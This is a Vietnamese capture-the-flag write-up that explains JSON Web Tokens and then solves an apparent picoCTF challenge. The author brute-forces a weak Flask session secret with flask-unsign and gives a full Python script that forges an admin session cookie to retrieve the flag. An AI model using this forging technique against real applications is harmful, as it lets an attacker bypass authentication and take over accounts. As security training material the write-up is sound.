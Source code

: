 # **JWT** #

## **JWT là gì ?** ##

- JWT là một phương tiện đại diện cho các yêu cầu chuyển giao giữa hai bên Client – Server , các thông tin trong chuỗi JWT được định dạng bằng JSON . Trong đó chuỗi Token phải có 3 phần là header , phần payload và phần signature được ngăn bằng dấu “.”

![](https://supertokens.com/static/b0172cabbcd583dd4ed222bdb83fc51a/9af93/jwt-structure.png)

- **`Signature`** : Phần chử ký này sẽ được tạo ra bằng cách mã hóa phần header , payload kèm theo một chuỗi secret (khóa bí mật)

```python
data = base64urlEncode( header ) + "." + base64urlEncode( payload )
signature = Hash( data, secret );
```

## **Khi nào sử dụng JSON Web Token** ##

- Khi người dùng đã đăng nhập vào hệ thống thì những request tiếp theo từ phía người dùng sẽ chứa theo các đoạn mã, cho phép người dùng cấp quyền truy cập vào url, service phướng pháp này không bị ảnh hưởng với CORS.

![](../../../WEB_SEC/img_web/jwt.png)

# **Thực chiến CTF** #

- Sau khi đọc source server.py và bài ra cũng đã hint cho ta bài này sẽ liên quan đến cookie cụ thể là  `Flask session cookies` .

- Đọc source server.py ta thấy để đọc được ta có:

```python
@app.route("/display", methods=["GET"])
def flag():
    if session.get("very_auth"):
        check = session["very_auth"]
        if check == "admin":
            resp = make_response(render_template(
                "flag.html", value=flag_value, title=title))
            return resp
        flash("That is a cookie! Not very special though...", "success")
        return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
    else:
        resp = make_response(redirect("/"))
        session["very_auth"] = "blank"
        return resp

```

- Điều để ý ở đây là `session["very_auth"] = admin`, khi mở trình duyệt lên và xem cookie
nó như được mã hóa bằng JWT token.

```
eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Y-TuRg.k5n4msf5gh1KVdDP82GnW7gu81A
```

- Đưa vào web [jwt.io](https://jwt.io/) ta sẽ thấy rõ cookie .

![](../../../WEB_SEC/img_web/jwt_most_cookie.png)

- Đọc code thì mình đã thấy secret_key là ột trong những cookie_name và mình đã tạo file wordlist.txt để dùng tool tìm secret_key.

```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz",
                "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```

- [`Tool Flask Unsign`](https://pypi.org/project/flask-unsign/) là một công cụ có thể decode ra jwt token và đồng thời brup force ra `secret_key = 'fortune'`

![](../../../WEB_SEC/img_web/flask.png)

- Sau khi tìm được secret key chúng ta sẽ brup force gửi request đến web và lấy flag

- Đây là script.py gửi request lên pico và lấy flag.

```python
import requests
import sys
import zlib
from itsdangerous import base64_decode
import ast
# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface


class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


def encode(secret_key, session_cookie_structure):
    """ Encode a Flask session cookie """
    try:
        app = MockApp(secret_key)
        session_cookie_structure = dict(
            ast.literal_eval(session_cookie_structure))
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)
        return s.dumps(session_cookie_structure)
    except Exception as e:
        return "[Encoding error] {}".format(e)
        raise e


payload = "{'very_auth':'admin'}"
url = "http://mercury.picoctf.net:65344/display"
new_cookie = encode('fortune', payload)
r = requests.get(url, cookies={"session": new_cookie})
print(r.text)

```
